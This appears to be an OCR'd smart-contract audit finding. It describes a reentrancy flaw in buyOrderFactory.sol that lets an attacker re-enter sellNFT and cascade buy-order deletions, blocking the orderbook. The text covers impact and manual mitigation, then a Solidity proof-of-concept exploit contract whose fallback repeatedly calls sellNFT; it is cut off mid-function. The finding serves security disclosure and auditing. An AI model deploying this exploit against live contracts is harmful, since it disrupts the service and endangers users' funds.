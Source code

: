 ```solidity  
Exploit contract will reenter sellNFT multiple times, triggering a cascade of buy order deletions
Impact
The orderbook in buyOrderFactory.sol will be inaccessible. The function getActiveBuyOrders(uint offset, uint limit) is used by off-chain services to gather buy order data - this data will be temporarily blocked. Deleting existing buy orders (deleteBuyOrder()) and selling NFTs (sellNFT(uint receiptID)) will also be temporarily blocked until the issue is resolved manually. Issue can be resolved manually by:

Opening dummy buy orders with very little collateral
Closing/selling positions on existing "legit" orders
PoC
Note: the PoC is somewhat hastily developed as the audit deadline is quite short relative to the project scope. Executing the PoC with the verbose flag (forge test -vvvv) will show that deletion is triggered multiple times.

Exploit contract:

// SPDX-License-Identifier: MIT  
pragma solidity ^0.8.0;  
  
interface BuyOrder {  
    function sellNFT(uint receiptID) external;  
}  
  
contract Exploit {  
    BuyOrder public buyOrder;  
    uint public counter = 0;  
    uint public counterMax = 2;  
  
    struct receiptInstance {  
        uint receiptID;  
        uint attachedNFT;  
        uint lockedAmount;  
        uint lockedDate;  
        uint decimals;  
        address vault;  
        address underlying;  
    }  
  
    constructor() {}  
  
    function setBuyOrder(address _buyOrder) public {  
        buyOrder = BuyOrder(_buyOrder);  
    }  
  
    fallback() external payable {  
        if (counter < 2) {  
            counter++;  
            buyOrder.sellNFT(0);  
        }  
  
        if (counter == counterMax) {  
            counter++;  
            buyOrder.sellNFT(1);  
        }   
  
    }  
  
    function getDataByReceipt(uint receiptID) public view returns (receiptInstance memory) {  
        uint lockedAmount;  
        if (receiptID == 1) {  
            lockedAmount = 1;  
        } else {  
```
